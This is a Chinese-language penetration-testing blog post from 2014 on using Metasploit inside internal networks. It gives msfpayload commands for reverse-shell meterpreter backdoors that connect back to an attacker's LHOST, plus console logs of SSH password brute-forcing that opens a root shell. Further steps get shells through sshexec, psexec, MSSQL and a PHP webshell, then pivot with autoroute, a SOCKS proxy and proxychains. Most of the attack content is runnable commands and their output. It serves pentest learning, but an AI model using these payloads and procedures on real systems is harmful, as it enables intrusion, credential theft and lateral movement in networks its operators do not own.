# metasploit 渗透测试笔记(内网渗透篇)

2014/08/12 12:23 | [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 reverse the shell

* * *

### File

通常做法是使用 msfpayload 生成一个 backdoor.exe 然后上传到目标机器执行。本地监听即可获得 meterpreter shell。

```
reverse_tcp/http/https => exe => victim => shell 
```

**reverse_tcp**

windows:

```
msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe 
```





Linux(x86)

```
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell 
```



**reverse_http**

```
msfpayload windows/meterpreter/reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe 
```



**reverse_https**

```
msfpayload windows/meterpreter/reverse_https LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe 
```



### Login privilege

在获得一些登陆权限之后获得 meterpreter shell 的方法。

**SSH**

**ssh_login**

模块路径:`auxiliary/scanner/ssh/ssh_login`

```
msf exploit(sshexec) > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > show options 

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf auxiliary(ssh_login) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login) > set PASS
set PASSWORD   set PASS_FILE  
msf auxiliary(ssh_login) > set PASSWORD toor
PASSWORD => toor
msf auxiliary(ssh_login) > exploit 

[*] 192.168.1.104:22 SSH - Starting bruteforce
[*] 192.168.1.104:22 SSH - [1/3] - Trying: username: 'root' with password: ''
[-] 192.168.1.104:22 SSH - [1/3] - Failed: 'root':''
[*] 192.168.1.104:22 SSH - [2/3] - Trying: username: 'root' with password: 'root'
[-] 192.168.1.104:22 SSH - [2/3] - Failed: 'root':'root'
[*] 192.168.1.104:22 SSH - [3/3] - Trying: username: 'root' with password: 'toor'
[*] Command shell session 4 opened (192.168.1.105:54562 -> 192.168.1.104:22) at 2014-08-07 22:55:54 +0800
[+] 192.168.1.104:22 SSH - [3/3] - Success: 'root':'toor' 'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=system_u:system_r:unconfined_t:SystemLow-SystemHigh Linux localhost.localdomain 2.6.18-164.el5 #1 SMP Thu Sep 3 03:33:56 EDT 2009 i686 i686 i386 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions 

Active sessions
===============

  Id  Type         Information                       Connection
  --  ----         -----------                       ----------
  4   shell linux  SSH root:toor (192.168.1.104:22)  192.168.1.105:54562 -> 192.168.1.104:22 (192.168.1.104)

msf auxiliary(ssh_login) > 
```



这里 metasploit 在探测 ssh 弱口令时，如果发现存在，则会返回一个 linux shell，注意此时不是 meterpreter shell。接下来可以使用

```
sessions –u id 
```

将 linux shell 升级为 meterpreter shell，本地测试失败了。:(

**sshexec**

模块路径:`auxiliary/scanner/ssh/ssh_login`

注意这个模块 BT5 下是没有的，kali 中则存在。

```
msf> use exploit/multi/ssh/sshexec 
msf exploit(sshexec) > set payload linux/x86/meterpreter/reverse_tcp 
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(sshexec) > set LHOST 192.168.1.105 
LHOST => 192.168.1.105
msf exploit(sshexec) > set LPORT 8080
LPORT => 8080
msf exploit(sshexec) > set RHOST 192.168.1.104
RHOST => 192.168.1.104
msf exploit(sshexec) > set PASSWORD toor
PASSWORD => toor
msf exploit(sshexec) > exploit 

[*] Started reverse handler on 192.168.1.105:8080 
[*] 192.168.1.104:22 - Sending Bourne stager...
[*] Command Stager progress -  40.39% done (288/713 bytes)
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1228800 bytes) to 192.168.1.104
[*] Command Stager progress - 100.00% done (713/713 bytes)
[*] Meterpreter session 3 opened (192.168.1.105:8080 -> 192.168.1.104:40813) at 2014-08-07 22:53:12 +0800

meterpreter > 
```



**smb**

模块路径:`exploit/windows/smb/psexec`

当使用 smb_login 扫出 windows 的弱口令时，可以尝试使用这种方法获取 shell。 这是在内网中获得 windows shell 最基本的方法，在登陆域机器时需要设置 Domain 参数，否则登陆错误。

正如之前提到的 show advanced，每个模块都有高级参数设定，这里的 psexec 就可以设置 advanced 中的 EXE 参数达到执行攻击者本地任意文件的目的(见参考<1>)。





如果目标机器有杀软或者其他简单的防护措施呢？ 那么可以尝试只执行命令

**psexec_command**

模块路径:`auxiliary/admin/smb/psexec_command`



这里需要注意的是 psexec.exe(pstools 中的工具)如果不能成功执行，那么 psexec_command 或许是可以执行的，并且大多数的情况下 metasploit 中的 psexec 都可以用，而 psexec.exe 则不能用 :(

**sqlserver**

```
msf exploit(psexec) > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > show options 

Module options (exploit/windows/mssql/mssql_payload):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   METHOD               cmd              yes       Which payload delivery method to use (ps, cmd, or old)
   PASSWORD                              no        The password for the specified username
   RHOST                                 yes       The target address
   RPORT                1433             yes       The target port
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(mssql_payload) > 
```



在获得 sql server 的登陆权限后同样可以快速的获得 meterpreter shell。

注意这里 METHOD 选项，三种方法都要使用 XP_cmdshell，而第一种 ps 是使用 powershell，第二种需要使用 wscript.exe，第三种则要用到 debug.com。 本地没有环境，就不截图演示了

**others**

不管是什么场景，只要能转换成文件上传和执行权限就可以得到 shell。在获得一种权限时当然可以先 google 一番是否有可适用的脚本，如果没有再分析是否能转换为文件操作和执行权限。如果可以那就可以得到 shell 了。 比如:

```
mysql and sqlserver ..etc => file/webshell =>shell 
```

本地同样也测试了下 tunna 里自带的 msf 插件，测试了 php 版的。代码大致是这样的



先本地生成一个 meterpreter.exe(文件名不随机),

然后上传到`c:\windows\temp\meterpreter.exe`。

再通过 php 的 exec 函数执行。测试的时候发现代码生成 meterpreter.exe 时 LHOST 参数有误，改了 rb 代码之后终于在错误中弹回。

## 0x02 pivot with metasploit

* * *

在获取到跳板机一定权限后，如何充分发挥跳板功能呢？这部分内容将简单的介绍几种常见的方法。

### 添加路由表



这是在 metasploit 中最常用的方法，在添加路由表和 session 的关系后，便可以使用 msf 中的模块跨网段扫描或攻击。方法有很多，这里有个脚本 autoroute 可以快速添加路由表(如上图)，也可以将当前 session 置于后台(backgroud)，然后用 route 命令添加。

### Socks4a 代理

这里使用`auxiliary/server/socks4a`模块，需要注意 Proxychains 不支持 ICMP，所以在代理使用 NMAP 的时候需要使用 –sT `-Pn`参数。另外 Proxychains 的连接提示很乱，用 kali 自带的 Proxychains 代理使用 sqlmap 的时候看起来真的特别乱。在这里可以使用 proxychains-ng。 先在 kali 中卸载 proxychains,然后再安装 proxychains-ng。



```
root@kali:~# git clone https://github.com/rofl0r/proxychains-ng.git
正克隆到 'proxychains-ng'...
remote: Counting objects: 842, done.
remote: Total 842 (delta 0), reused 0 (delta 0)
Receiving objects: 100% (842/842), 465.92 KiB | 27 KiB/s, done.
Resolving deltas: 100% (554/554), done.
root@kali:~# cd proxychains-ng/
root@kali:~/proxychains-ng#  ./configure --prefix=/usr --sysconfdir=/etc
Done, now run make && make install
root@kali:~/proxychains-ng# make && make install 
```

之后使用 proxychains4 `-q` 选项运行，然后就不会有杂乱混杂的输出了。

### ssh

**meta_ssh**

当有一个 ssh 登录权限后,可以使用这个插件在 ssh 会话基础上建立链接(见参考<2>)。





之后进入 shell，查看网卡 IP 信息，然后退出再添加路由表。



再尝试扫描 5.5.5.0/24 这个段，然后对这个段中的 5.5.5.134 进行弱口令扫描。

